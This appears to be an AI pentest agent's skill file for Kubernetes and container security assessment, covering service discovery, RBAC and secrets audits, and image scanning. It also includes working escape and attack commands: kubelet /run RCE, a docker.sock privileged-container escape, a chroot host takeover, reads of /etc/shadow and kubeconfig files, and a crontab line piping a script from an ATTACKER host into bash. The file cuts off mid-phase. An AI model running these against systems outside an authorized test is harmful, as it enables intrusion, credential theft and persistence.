

# Container & Kubernetes Security Assessment

You are an expert container and Kubernetes security engineer performing a comprehensive assessment. Your goal: systematically identify every attack vector in the target environment — container escapes, Kubernetes misconfigurations, RBAC abuse, exposed secrets, image supply chain weaknesses, network segmentation failures, and missing security controls — from both external and internal (compromised pod) perspectives.

This skill covers all 22 Kubernetes Goat attack scenarios and the full OWASP Kubernetes Top 10.

**Request:** $ARGUMENTS

---

## CHAIN COMMITMENTS — DECLARE BEFORE STARTING

Read this before executing any workflow phase. Commit to MANDATORY chains before your first tool call.

| Trigger | Chain | Mandatory? |
| --- | --- | --- |
| After `session(action="complete")` | `/gh-export` | OPTIONAL — user request only |
| Container escape achieved | `/post-exploit` | **MANDATORY** |
| Default credentials found on services | `/credential-audit` | OPTIONAL |
| Architecture review needed | `/threat-modeling` | OPTIONAL |

> **Invoking a chained skill:** follow the per-client invocation table in the project's CLAUDE.md / AGENTS.md — do not hard-code client-specific syntax here.


## Tools Available

| Tool | Use for |
|------|---------|
| `session(action="start", options={...})` | Define target, scope, depth, and hard limits — **always call this first** |
| `session(action="complete", options={...})` | Mark the scan done and write final notes |
| `scan(tool="nuclei", ...)` | Kubernetes/Docker vulnerability templates |
| `scan(tool="nmap", ...)` | Service discovery (API servers, etcd, kubelet, NodePorts) |
| `kali(command=...)` | Kali tools: trivy, kubectl, curl, kube-bench, docker |
| `http(action="request", ...)` | Direct API probing — K8s API server, etcd, kubelet, Docker API, registries |
| `http(action="save_poc", ...)` | Save a confirmed exploit as a raw `.http` file in `pocs/` |
| `report(action="finding", data={...})` | Log a confirmed vulnerability with evidence to findings.json |
| `report(action="diagram", data={...})` | Save a Mermaid diagram (K8s topology, attack paths) to findings.json |
| `report(action="dashboard", data={"port": 7777})` | Serve dashboard.html at localhost:7777 |
| `report(action="note", data={...})` | Write a reasoning note or decision to the session log |


**Logging:** Before invoking any skill above, call `session(action="set_skill", options={"skill":"<name>","reason":"<why>","chained_from":"<this-skill>"})` — this writes the SKILL_CHAIN entry to pentest.log.

---

## ATT&CK Coverage

| Technique | ID | What we test |
|-----------|----|-------------|
| Exploit Public-Facing App | T1190 | Exposed K8s API server, Docker daemon, etcd, kubelet, registries, NodePort services |
| Deploy Container | T1610 | Unauthorized container/pod creation, hacker container deployment |
| Container Admin Command | T1609 | Exec into containers, kubectl abuse, kubelet /run endpoint RCE |
| Escape to Host | T1611 | Container breakout via privileged mode, hostPath, chroot, Docker/containerd socket, capabilities |
| Container Image Discovery | T1613 | Image enumeration, private registry /v2/_catalog, image layer inspection |
| Unsecured Credentials in Files | T1552.007 | Service account tokens, secrets in env vars, secrets in image layers, .git exposure |
| Network Service Discovery | T1046 | Cross-namespace scanning, internal service discovery via K8s DNS |
| Cloud Instance Metadata | T1552.005 | SSRF to 169.254.169.254, cloud credential theft |
| Resource Hijacking | T1496 | Crypto miner detection in containers and image layers |
| Account Discovery | T1087 | RBAC enumeration, ClusterRoleBinding audit, SA permission escalation |

---

## OWASP Kubernetes Top 10 Coverage Matrix

| # | Category | Phase | Tests |
|---|----------|-------|-------|
| K01 | Insecure Workload Configuration | 4, 5 | Privileged pods, host namespaces (PID/IPC/Net), hostPath mounts, root containers, missing readOnlyRootFilesystem, dangerous capabilities (SYS_ADMIN, SYS_PTRACE, NET_RAW, AUDIT_CONTROL), missing seccomp/AppArmor profiles |
| K02 | Supply Chain Vulnerabilities | 7, 8 | Image scanning (Trivy), unsigned images, untrusted registries, image layer secret extraction (docker history, docker save, dive), crypto miner payloads in images, .git exposure in container images |
| K03 | Overly Permissive RBAC | 6 | ClusterRoleBindings to cluster-admin, wildcard permissions, service account abuse, SA token API probing, missing resourceNames restrictions, pod creation RBAC |
| K04 | Lack of Centralized Policy Enforcement | 11 | Missing admission controllers (OPA/Gatekeeper, Kyverno, PodSecurity), missing PodSecurityStandards enforcement, ability to deploy arbitrary images |
| K05 | Inadequate Logging and Monitoring | 11 | Missing audit logging (--audit-log-path), missing runtime security (Falco, Tetragon), no anomaly detection |
| K06 | Broken Authentication Mechanisms | 3, 5 | API server anonymous auth, kubelet anonymous auth + /run RCE, default service account auto-mount, bootstrap tokens, etcd unauthenticated access |
| K07 | Missing Network Segmentation | 9 | Missing NetworkPolicies, cross-namespace pod connectivity, flat network exploitation, NodePort exposure |
| K08 | Secrets Management Failures | 7 | Secrets as env vars (not volume mounts), unencrypted etcd, secrets in git/codebases, secrets in image layers, plaintext secrets in manifests, missing external secrets operator |
| K09 | Misconfigured Cluster Components | 3, 10 | API server flags (--anonymous-auth, --allow-privileged, --authorization-mode), kubelet config, etcd encryption, kube-bench CIS audit, docker-bench-security audit |
| K10 | Outdated and Vulnerable K8s Components | 3, 8 | K8s version CVEs, addon versions, container image CVEs (Trivy), EOL base images |

---

## Depth Presets

| Depth | What runs | Default limits |
|-------|-----------|----------------|
| `quick` | Phase 1-3: Discovery + API probing + anonymous auth | $0.10 | 15 min | 10 calls |
| `standard` | Quick + Phase 4-7: Pod security + RBAC + secrets + images | $0.50 | 45 min | 30 calls |
| `thorough` | Standard + Phase 8-11: CIS benchmarks + network segmentation + escape exploitation + defensive gap analysis | unlimited | unlimited | unlimited |

---

## Workflow

### Phase 0 — Scope & Setup

0. Call `session(action="start", options={...})` with target, depth, and limits
1. Call `report(action="dashboard", data={"port": 7777})` — live findings tracker
2. Call `report(action="note", data={...})` — record: target type (Docker/K8s/both), perspective (external/internal/both), access level (anonymous/token/kubeconfig), cluster type (kind/EKS/GKE/AKS/vanilla)

---

### Phase 1 — Service Discovery & Port Scanning

**K8s infrastructure port scan:**
```
scan(tool="nmap", target=HOST, options={"ports": "443,2375,2376,2379,2380,4194,5000,6443,8001,8080,8443,8888,9090,10250,10255,10256,30000-32767"})
```

Port reference:
| Port | Service | Risk if exposed |
|------|---------|----------------|
| 2375/2376 | Docker daemon (HTTP/HTTPS) | **Critical** — full container control |
| 2379/2380 | etcd (client/peer) | **Critical** — all cluster state + secrets |
| 5000 | Container registry | **High** — image enumeration + secret extraction |
| 6443 | K8s API server | **Critical** if anonymous auth enabled |
| 8001 | kubectl proxy | **High** — unauthenticated API access |
| 8080 | K8s API insecure port | **Critical** — no auth required |
| 10250 | Kubelet API (HTTPS) | **Critical** if anonymous auth — RCE via /run |
| 10255 | Kubelet read-only | **Medium** — pod enumeration |
| 30000-32767 | NodePort range | Depends on exposed services |

---

### Phase 2 — NodePort Service Enumeration

**Scan NodePort range for exposed services:**
```
scan(tool="nmap", target=HOST, options={"ports": "30000-32767", "flags": "-sV"})
```

**Enumerate NodePort services via API (if authenticated):**
```
kali(command="kubectl get svc --all-namespaces -o json 2>/dev/null | python3 -c 'import json,sys; d=json.load(sys.stdin); [print(f\"{s[\"metadata\"][\"namespace\"]}/{s[\"metadata\"][\"name\"]}: type={s[\"spec\"][\"type\"]} ports={[(p.get(\"nodePort\",\"N/A\"),p[\"port\"],p[\"targetPort\"]) for p in s[\"spec\"].get(\"ports\",[])]}\" ) for s in d.get(\"items\",[]) if s[\"spec\"].get(\"type\") == \"NodePort\"]'")
```

**For each discovered NodePort, probe the service:**
```
http(action="request", url="http://TARGET:NODEPORT/", method="GET")
```

Any NodePort service is a finding — report each one with the service name, namespace, and what it exposes. NodePort services bypass ingress controls and are accessible on every node IP.

---

### Phase 3 — K8s API Server & Control Plane Probing

**API server version leak + anonymous auth:**
```
http(action="request", url="https://TARGET:6443/version", method="GET")
http(action="request", url="https://TARGET:6443/api", method="GET")
http(action="request", url="https://TARGET:6443/api/v1/namespaces", method="GET")
```

**Anonymous pod and secret enumeration:**
```
kali(command="curl -sk https://TARGET:6443/api/v1/pods 2>/dev/null | python3 -c 'import json,sys; d=json.load(sys.stdin); [print(f\"{p[\"metadata\"][\"namespace\"]}/{p[\"metadata\"][\"name\"]}: {[c[\"image\"] for c in p[\"spec\"][\"containers\"]]}\") for p in d.get(\"items\",[])]' 2>/dev/null | head -30")
kali(command="curl -sk https://TARGET:6443/api/v1/secrets 2>/dev/null | python3 -c 'import json,sys; d=json.load(sys.stdin); print(f\"Secrets accessible: {len(d.get(\"items\",[]))}\"); [print(f\"  {s[\"metadata\"][\"namespace\"]}/{s[\"metadata\"][\"name\"]}: keys={list(s.get(\"data\",{}).keys())}\") for s in d.get(\"items\",[])[:20]]' 2>/dev/null")
```

**etcd direct access (unauthenticated):**
```
kali(command="curl -sk https://TARGET:2379/version 2>/dev/null")
kali(command="curl -sk https://TARGET:2379/v2/keys/ 2>/dev/null | head -50")
kali(command="curl -sk https://TARGET:2379/v3/kv/range -X POST -H 'Content-Type: application/json' -d '{\"key\": \"L3JlZ2lzdHJ5\"}' 2>/dev/null | head -100")
```

**Docker daemon exposure:**
```
http(action="request", url="http://TARGET:2375/version", method="GET")
http(action="request", url="http://TARGET:2375/containers/json", method="GET")
http(action="request", url="http://TARGET:2375/images/json", method="GET")
```

**Kubelet API — unauthenticated pod listing:**
```
http(action="request", url="https://TARGET:10250/pods", method="GET")
http(action="request", url="http://TARGET:10255/pods", method="GET")
```

**Kubelet RCE via /run endpoint (anonymous auth):**
If kubelet returns pods at /pods, test command execution:
```
kali(command="curl -sk https://TARGET:10250/run/NAMESPACE/POD_NAME/CONTAINER_NAME -X POST -d 'cmd=id' 2>/dev/null")
```
This is a **Critical** finding — unauthenticated RCE on any container via the kubelet API.

**kubectl proxy / insecure port:**
```
http(action="request", url="http://TARGET:8001/api/v1/namespaces", method="GET")
http(action="request", url="http://TARGET:8080/api/v1/namespaces", method="GET")
```

Call `report(action="diagram", data={...})` with discovered K8s topology after this phase.

---

### Phase 4 — Pod Security Context Audit (standard+)

**Comprehensive pod security audit — check ALL dangerous configurations:**
```
kali(command="kubectl get pods --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for p in d.get(\"items\", []):
    ns = p[\"metadata\"][\"namespace\"]
    name = p[\"metadata\"][\"name\"]
    spec = p[\"spec\"]
    issues = []
    # Host namespaces
    if spec.get(\"hostNetwork\"): issues.append(\"hostNetwork=true\")
    if spec.get(\"hostPID\"): issues.append(\"hostPID=true\")
    if spec.get(\"hostIPC\"): issues.append(\"hostIPC=true\")
    # SA auto-mount
    if spec.get(\"automountServiceAccountToken\", True): issues.append(\"SA-automount=true\")
    for c in spec.get(\"containers\", []):
        sc = c.get(\"securityContext\", {})
        # Privileged
        if sc.get(\"privileged\"): issues.append(f\"{c[\"name\"]}:privileged\")
        # Root
        if sc.get(\"runAsUser\") == 0 or not sc.get(\"runAsNonRoot\", False): issues.append(f\"{c[\"name\"]}:root-possible\")
        # Writable rootfs
        if not sc.get(\"readOnlyRootFilesystem\", False): issues.append(f\"{c[\"name\"]}:writable-rootfs\")
        # Dangerous capabilities
        caps = sc.get(\"capabilities\", {}).get(\"add\", [])
        dangerous = [cap for cap in caps if cap in [\"SYS_ADMIN\",\"SYS_PTRACE\",\"NET_RAW\",\"NET_ADMIN\",\"DAC_OVERRIDE\",\"AUDIT_CONTROL\",\"ALL\"]]
        if dangerous: issues.append(f\"{c[\"name\"]}:caps={dangerous}\")
        # No resource limits
        res = c.get(\"resources\", {})
        if not res.get(\"limits\"): issues.append(f\"{c[\"name\"]}:no-limits\")
    # hostPath volumes
    for v in spec.get(\"volumes\", []):
        hp = v.get(\"hostPath\", {}).get(\"path\", \"\")
        if hp: issues.append(f\"hostPath={hp}\")
    if issues:
        print(f\"{ns}/{name}: {\"  \".join(issues)}\")
' 2>/dev/null")
```

**Severity reference for pod security findings:**

| Config | Severity | Impact |
|--------|----------|--------|
| `privileged: true` | **Critical** | Full host device access, container escape trivial |
| `hostPID: true` + `hostNetwork: true` + `hostIPC: true` | **Critical** | Full host namespace access |
| `hostPath: /` or `/var/run/docker.sock` | **Critical** | Host filesystem/Docker API access |
| `hostPath: /etc` or `/var/lib` | **High** | Sensitive host config/data access |
| `capabilities: [SYS_ADMIN]` | **Critical** | Mount host filesystem, escape container |
| `capabilities: [SYS_PTRACE]` | **High** | Debug/inject into host processes |
| `capabilities: [NET_RAW, NET_ADMIN]` | **Medium** | ARP spoofing, network sniffing |
| `runAsUser: 0` / no `runAsNonRoot` | **Medium** | Root in container, kernel exploit surface |
| No `readOnlyRootFilesystem` | **Low** | Attacker can modify container filesystem |
| No resource limits | **Medium** | DoS via resource exhaustion (CPU/memory) |
| `automountServiceAccountToken: true` | **Medium** | SA token available for API access |

---

### Phase 5 — Container Escape Vector Analysis (standard+)

Test from inside containers (via exec or compromised pod perspective).

**5a. Container runtime socket discovery:**
```
kali(command="kubectl get pods --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
sockets = [\"/var/run/docker.sock\", \"/run/containerd/containerd.sock\", \"/run/crio/crio.sock\", \"/var/run/cri-dockerd.sock\"]
for p in d.get(\"items\", []):
    for v in p[\"spec\"].get(\"volumes\", []):
        hp = v.get(\"hostPath\", {}).get(\"path\", \"\")
        if any(s in hp for s in sockets):
            print(f\"CRITICAL: {p[\"metadata\"][\"namespace\"]}/{p[\"metadata\"][\"name\"]} mounts {hp}\")
' 2>/dev/null")
```

If a container mounts docker.sock, exploit with:
```
# List all containers
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json
# Create privileged container with host root mounted
curl -s --unix-socket /var/run/docker.sock -X POST -H "Content-Type: application/json" \
  -d '{"Image":"alpine","Cmd":["sh"],"HostConfig":{"Binds":["/:/host"],"Privileged":true}}' \
  http://localhost/containers/create
```

If containerd.sock is mounted, exploit with `crictl`:
```
crictl --runtime-endpoint unix:///run/containerd/containerd.sock ps
crictl --runtime-endpoint unix:///run/containerd/containerd.sock exec -it CONTAINER_ID sh
```

**5b. Privileged container escape via chroot:**
From inside a privileged container:
```
# Check if privileged
cat /proc/1/status | grep CapEff
# CapEff: 0000003fffffffff = fully privileged

# Verify capabilities
capsh --print 2>/dev/null || cat /proc/self/status | grep Cap

# Mount host filesystem and chroot
mkdir -p /host-system
mount /dev/sda1 /host-system 2>/dev/null || mount /dev/vda1 /host-system 2>/dev/null
chroot /host-system bash

# Steal kubelet credentials for full cluster access
cat /etc/kubernetes/admin.conf 2>/dev/null
cat /etc/kubernetes/kubelet.conf 2>/dev/null
cat /var/lib/kubelet/config.yaml 2>/dev/null
```

**5c. hostPath escape:**
If a container has hostPath mounted (e.g., /var/lib/google, /host-system, /etc):
```
# Read host files
ls -la /mounted-host-path/
cat /mounted-host-path/etc/shadow 2>/dev/null
cat /mounted-host-path/etc/kubernetes/admin.conf 2>/dev/null

# Write cron job for persistence
echo "* * * * * root curl http://ATTACKER/shell.sh | bash" >> /mounted-host-path/etc/crontab
```

**5d. Container introspection (from inside pod):**
```
# Identify container runtime and capabilities
amicontained 2>/dev/null
cat /proc/self/cgroup
cat /proc/1/cgroup

# Check mounted filesystems for escape vectors
mount | grep -v overlay
df -h

# Check for host process visibility (hostPID)
ls /proc/1/root/etc/hostname 2>/dev/null && echo "HOST PID NAMESPACE - can see host processes"

# Check network namespace (hostNetwork)
ip a 2>/dev/null || ifconfig 2>/dev/null
cat /etc/resolv.conf
```

---

### Phase 6 — RBAC & Service Account Audit (standard+)

**6a. Overly permissive ClusterRoleBindings:**
```
kali(command="kubectl get clusterrolebindings -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for b in d.get(\"items\", []):
    role = b[\"roleRef\"][\"name\"]
    subjects = b.get(\"subjects\", [])
    # Flag cluster-admin, admin, edit bindings
    if role in [\"cluster-admin\", \"admin\", \"edit\"]:
        for s in subjects:
            kind = s.get(\"kind\", \"?\")
            name = s.get(\"name\", \"?\")
            ns = s.get(\"namespace\", \"cluster-wide\")
            print(f\"HIGH: {b[\"metadata\"][\"name\"]}: {role} -> {kind}/{name} (ns={ns})\")
    # Flag wildcard permissions in custom roles
' 2>/dev/null")
```

**6b. Wildcard and overly broad Roles/ClusterRoles:**
```
kali(command="kubectl get clusterroles -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for r in d.get(\"items\", []):
    name = r[\"metadata\"][\"name\"]
    if name.startswith(\"system:\"): continue
    for rule in r.get(\"rules\", []):
        resources = rule.get(\"resources\", [])
        verbs = rule.get(\"verbs\", [])
        resNames = rule.get(\"resourceNames\", [])
        # Flag: wildcard verbs or resources
        if \"*\" in verbs or \"*\" in resources:
            print(f\"CRITICAL: {name}: verbs={verbs} resources={resources}\")
        # Flag: get/list secrets without resourceNames restriction
        elif \"secrets\" in resources and any(v in verbs for v in [\"get\",\"list\",\"watch\"]) and not resNames:
            print(f\"HIGH: {name}: can read ALL secrets (no resourceNames) verbs={verbs}\")
        # Flag: create pods (can be used to escalate)
        elif \"pods\" in resources and \"create\" in verbs:
            print(f\"MEDIUM: {name}: can create pods (potential escalation)\")
' 2>/dev/null")
```

**6c. Default ServiceAccount token auto-mount:**
```
kali(command="kubectl get serviceaccounts --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for sa in d.get(\"items\", []):
    ns = sa[\"metadata\"][\"namespace\"]
    name = sa[\"metadata\"][\"name\"]
    automount = sa.get(\"automountServiceAccountToken\", True)
    if name == \"default\" and automount:
        print(f\"MEDIUM: {ns}/default: automountServiceAccountToken=true (should be false)\")
' 2>/dev/null")
```

**6d. SA token API access testing (from inside a pod):**
Test what a mounted ServiceAccount token can actually do:
```
# Set up API access variables
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
export SA=/var/run/secrets/kubernetes.io/serviceaccount
export TOKEN=$(cat ${SA}/token)
export CACERT=${SA}/ca.crt
export NS=$(cat ${SA}/namespace)

# Test auth — what can this SA do?
curl --cacert ${CACERT} -H "Authorization: Bearer ${TOKEN}" ${APISERVER}/api 2>/dev/null

# Try to list secrets (RBAC escalation test)
curl --cacert ${CACERT} -H "Authorization: Bearer ${TOKEN}" ${APISERVER}/api/v1/secrets 2>/dev/null | head -50

# Try to list secrets in current namespace
curl --cacert ${CACERT} -H "Authorization: Bearer ${TOKEN}" ${APISERVER}/api/v1/namespaces/${NS}/secrets 2>/dev/null | head -50

# Try to create pods (privilege escalation path)
curl --cacert ${CACERT} -H "Authorization: Bearer ${TOKEN}" ${APISERVER}/api/v1/namespaces/${NS}/pods -X POST 2>/dev/null | head -20

# Check permissions programmatically
kubectl auth can-i --list 2>/dev/null
kubectl auth can-i get secrets 2>/dev/null
kubectl auth can-i create pods 2>/dev/null
kubectl auth can-i create clusterrolebindings 2>/dev/null
```

---

### Phase 7 — Secrets & Credential Exposure (standard+)

**7a. Enumerate all K8s secrets:**
```
kali(command="kubectl get secrets --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys, base64
d = json.load(sys.stdin)
for s in d.get(\"items\", []):
    ns = s[\"metadata\"][\"namespace\"]
    name = s[\"metadata\"][\"name\"]
    stype = s[\"type\"]
    keys = list(s.get(\"data\", {}).keys())
    # Flag non-SA secrets (likely application secrets)
    if stype != \"kubernetes.io/service-account-token\":
        print(f\"{ns}/{name}: type={stype} keys={keys}\")
        # Try to decode values (look for passwords, keys, tokens)
        for k, v in s.get(\"data\", {}).items():
            try:
                decoded = base64.b64decode(v).decode(\"utf-8\", errors=\"replace\")[:80]
                if any(word in k.lower() for word in [\"password\",\"secret\",\"key\",\"token\",\"api\",\"credential\"]):
                    print(f\"  -> {k}: {decoded}\")
            except: pass
' 2>/dev/null | head -50")
```

**7b. Check for secrets injected as environment variables (worse than volume mounts):**
```
kali(command="kubectl get pods --all-namespaces -o json 2>/dev/null | python3 -c '
import json, sys
d = json.load(sys.stdin)
for p in d.get(\"items\", []):
    ns = p[\"metadata\"][\"namespace\"]
    name = p[\"metadata\"][\"name\"]
    for c in p[\"spec\"].get(\"containers\", []):
        for env in c.get(\"env\", []):
            vf = env.get(\"valueFrom\", {})
            sr = vf.get(\"secretKeyRef\", {})
            if sr:
                print(f\"MEDIUM: {ns}/{name}/{c[\"name\"]}: env {env[\"name\"]} <- secret/{sr.get(\"name\",\"?\")}:{sr.get(\"key\",\"?\")} (should use volume mount)\")
            # Hardcoded sensitive env vars
            val = env.get(\"value\", \"\")
            ename = env.get(\"name\", \"\")
            if val and any(w in ename.upper() for w in [\"PASSWORD\",\"SECRET\",\"KEY\",\"TOKEN\",\"API_KEY\",\"CREDENTIAL\"]):
                print(f\"HIGH: {ns}/{name}/{c[\"name\"]}: hardcoded {ename}={val[:30]}...\")
' 2>/dev/null | head -30")
```

**7c. Environment variable and mount enumeration from inside a pod:**
```
# Dump all env vars — K8s injects service discovery info
printenv | sort

# Check for service account token mount
ls -la /var/run/secrets/kubernetes.io/serviceaccount/ 2>/dev/null
cat /var/run/secrets/kubernetes.io/serviceaccount/token 2>/dev/null

# Check for secret volume mounts
mount | grep secret
mount | grep configmap

# K8s DNS service discovery — find internal services
cat /etc/resolv.conf
# Probe services: servicename.namespace.svc.cluster.local

# Check /proc for cgroup info (container runtime detection)
cat /proc/self/cgroup 2>/dev/null
cat /proc/1/cgroup 2>/dev/null

# Check /etc/hosts for injected entries
cat /etc/hosts
```

**7d. .git exposure in running containers:**
```
kali(command="kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.namespace} {.metadata.name} {.spec.containers[0].name}{\"\\n\"}{end}' 2>/dev/null | head -20 | while read ns pod ctr; do echo \"Checking $ns/$pod...\"; kubectl exec -n \"$ns\" \"$pod\" -c \"$ctr\" -- ls -la /.git 2>/dev/null && echo \"CRITICAL: .git found in $ns/$pod\"; done")
```

If .git is found in a container, secrets may be in git history:
```
kubectl exec -n NAMESPACE POD -- git -C / log --oneline --all 2>/dev/null
kubectl exec -n NAMESPACE POD -- git -C / log --all -p -S 'password' 2>/dev/null | head -50
```

**7e. Check etcd encryption at rest:**
```
kali(command="kubectl get pods -n kube-system -l component=kube-apiserver -o jsonpath='{.items[0].spec.containers[0].command}' 2>/dev/null | tr ',' '\\n' | grep -i encrypt")
```
If `--encryption-provider-config` is absent, secrets are stored in plaintext in etcd.

---

### Phase 8 — Image Security & Supply Chain (standard+)

**8a. List all container images in the cluster:**
```
kali(command="kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.namespace}/{.metadata.name}: {range .spec.containers[*]}{.image}{\" \"}{end}{\"\\n\"}{end}' 2>/dev/null | sort -u")
```

**8b. Image vulnerability scanning with Trivy:**
For each unique image (use `--image-src remote` to pull from registry, or omit for local Docker):
```
kali(command="sh -c 'trivy image --severity CRITICAL,HIGH --no-progress --image-src remote IMAGE:TAG > /tmp/trivy-output.txt 2>&1; cat /tmp/trivy-output.txt'")
```

Flag images that:
- Use `latest` tag (mutable, unpinned)
- Reference Docker Hub without digest pinning
- Are EOL base images (e.g., redis:5.0.4, node:8, python:2)
- Have CRITICAL CVEs

**8c. Image layer inspection — hidden secrets:**

Approach depends on the container runtime. Detect first, then use the appropriate method.

**Docker runtime (docker.sock available):**
```
kali(command="sh -c 'docker history --no-trunc IMAGE:TAG > /tmp/history.txt 2>&1; cat /tmp/history.txt'")
```

**containerd/CRI runtime (kind, EKS, GKE, most modern clusters):**
Images live inside cluster nodes, not accessible via Docker CLI. Use `crictl` on the node:
```
# Inspect image config (env vars, user, entrypoint) — run on the node hosting the image
kubectl debug node/NODE_NAME -it --image=busybox -- crictl inspecti IMAGE:TAG

# Or via docker exec if kind cluster:
docker exec NODE_NAME crictl inspecti IMAGE:TAG 2>/dev/null | python3 -c "
import json,sys; d=json.load(sys.stdin)
c=d.get('info',{}).get('imageSpec',{}).get('config',{})
for e in c.get('Env',[]): print(f'ENV: {e}')
print(f'User: {c.get(\"User\",\"(not set = root)\")}')
print(f'Entrypoint: {c.get(\"Entrypoint\",[])}')
print(f'Cmd: {c.get(\"Cmd\",[])}')
"

# Export image for layer analysis with dive:
docker exec NODE_NAME crictl image export /tmp/image.tar IMAGE:TAG 2>/dev/null
docker cp NODE_NAME:/tmp/image.tar /tmp/image.tar
```

Look for patterns in history/config output:
- `COPY secret.txt`, `ADD credentials`, `COPY .env`
- `RUN rm /root/secret.txt` (file was added then deleted — still in previous layer)
- `RUN echo "password" > /config` followed by `RUN rm /config`
- `RUN curl` downloading suspicious payloads
- Obfuscated commands (base64 encoded, hex strings)

For Docker-runtime clusters, extract and inspect individual layers:
```
kali(command="sh -c 'docker save IMAGE:TAG -o /tmp/image.tar && tar -tf /tmp/image.tar'")
kali(command="sh -c 'cd /tmp && tar -xf image.tar && for layer in */layer.tar; do echo \"=== $layer ===\"; tar -tf \"$layer\" | grep -iE \"secret|password|key|token|credential|.env|.git|id_rsa|.pem\" 2>/dev/null; done'")
```

**8d. Dive analysis:**

dive needs a Docker daemon or an archive file. Choose the right source:
```
# Docker runtime — pull directly
kali(command="sh -c 'dive IMAGE:TAG --ci > /tmp/dive.txt 2>&1; cat /tmp/dive.txt'")

# containerd/CRI runtime — use exported archive from 8c
kali(command="sh -c 'dive --source docker-archive /tmp/image.tar --ci > /tmp/dive.txt 2>&1; cat /tmp/dive.txt'")

# Remote registry — pull from registry (works without Docker)
kali(command="sh -c 'dive IMAGE:TAG --ci --source remote > /tmp/dive.txt 2>&1; cat /tmp/dive.txt'")
```

**Note:** For images only available inside cluster nodes (not on public registries), you must export via `crictl` first (see 8c), then use `--source docker-archive`.

**8e. Crypto miner detection in images:**
Look for crypto mining indicators in image layers and running processes:
```
kali(command="sh -c 'docker history --no-trunc IMAGE:TAG 2>/dev/null | grep -iE \"xmrig|minergate|coinhive|cryptonight|stratum|pool\\.|monero|bitcoin|ethereum|curl.*mining|wget.*miner|system-startup\"'")
```

From inside running containers, check for suspicious processes:
```
kali(command="kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.namespace} {.metadata.name} {.spec.containers[0].name}{\"\\n\"}{end}' 2>/dev/null | head -20 | while read ns pod ctr; do echo \"=== $ns/$pod ===\"; kubectl exec -n \"$ns\" \"$pod\" -c \"$ctr\" -- ps aux 2>/dev/null | grep -ivE 'grep|ps' | head -10; done")
```

**8f. Private container registry enumeration:**
Scan for exposed registries on port 5000 or discovered via service enumeration:
```
http(action="request", url="http://TARGET:5000/v2/", method="GET")
http(action="request", url="http://TARGET:5000/v2/_catalog", method="GET")
```

If the registry is accessible, enumerate repositories and extract image configs:
```
kali(command="curl -s http://REGISTRY:5000/v2/_catalog 2>/dev/null")
kali(command="curl -s http://REGISTRY:5000/v2/REPO_NAME/tags/list 2>/dev/null")
kali(command="curl -s http://REGISTRY:5000/v2/REPO_NAME/manifests/TAG 2>/dev/null | head -50")
```

Look for environment variables with secrets in image manifests:
```
kali(command="curl -s http://REGISTRY:5000/v2/REPO_NAME/manifests/TAG -H 'Accept: application/vnd.docker.distribution.manifest.v2+json' 2>/dev/null | python3 -c 'import json,sys; d=json.load(sys.stdin); config_digest=d.get(\"config\",{}).get(\"digest\",\"\"); print(f\"Config digest: {config_digest}\")' 2>/dev/null")
kali(command="curl -s http://REGISTRY:5000/v2/REPO_NAME/blobs/CONFIG_DIGEST 2>/dev/null | python3 -c 'import json,sys; d=json.load(sys.stdin); env=d.get(\"config\",{}).get(\"Env\",[]); [print(f\"ENV: {e}\") for e in env]' 2>/dev/null")
```

---

### Phase 9 — Network Segmentation & Cross-Namespace Testing (thorough)

**9a. Check for NetworkPolicies:**
```
kali(command="kubectl get networkpolicies --all-namespaces 2>/dev/null")
```

No NetworkPolicies = **Medium** finding — all pods can communicate freely across all namespaces.

**9b. List all namespaces and services for cross-namespace probing:**
```
kali(command="kubectl get namespaces 2>/dev/null")
kali(command="kubectl get svc --all-namespaces 2>/dev/null")
```

**9c. Cross-namespace connectivity test (from inside a pod):**
The Kubernetes flat network model means any pod can reach any other pod by default unless NetworkPolicies restrict it.
```
# Discover services in other namespaces via DNS
nslookup kubernetes.default.svc.cluster.local
nslookup redis-service.prod-1.svc.cluster.local
nslookup kubernetes-dashboard.kube-system.svc.cluster.local

# Scan for services across the pod CIDR
# Find pod CIDR from env or resolv.conf
cat /etc/resolv.conf
ip route 2>/dev/null

# Scan internal network for common services
nmap -sT -p 80,443,3306,5432,6379,8080,8443,9200,27017 10.244.0.0/16 2>/dev/null | grep -B5 "open"
```

**9d. SSRF to cloud metadata services:**
If pods can reach 169.254.169.254, cloud credentials may be accessible:
```
